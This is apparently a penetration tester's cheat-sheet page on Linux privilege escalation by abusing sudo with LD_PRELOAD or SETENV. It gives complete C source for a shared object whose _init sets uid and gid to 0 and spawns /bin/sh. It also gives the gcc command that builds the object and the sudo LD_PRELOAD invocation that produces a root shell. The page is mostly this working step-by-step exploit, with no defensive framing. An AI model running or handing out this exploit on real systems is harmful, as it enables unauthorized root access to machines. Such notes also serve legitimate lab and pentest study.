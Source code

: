 # LD\_Preload / SETENV

There are a couple of different ways I have found this to work:

1\. In the below image, if you see the marked area when running sudo -l then you should be good to go.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

2\. If you run sudo -l and see SETENV under sudo permissions then I would also try this. Note: I had a file path after SETENV when this worked. I have not tried it with a bin, so I can't verify if it works the same.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

1. On attacker machine create a file called shell.c with the following code.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

2\. Build the shell.c code into shell.co

<pre class="language-bash"><code class="lang-bash"><strong>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

3\. Transfer the shell.so file to the target machine.

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

4\. Run the code below to get a root shell. Replace the /usr/bin/ping with the path specified in the output from sudo -l.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>
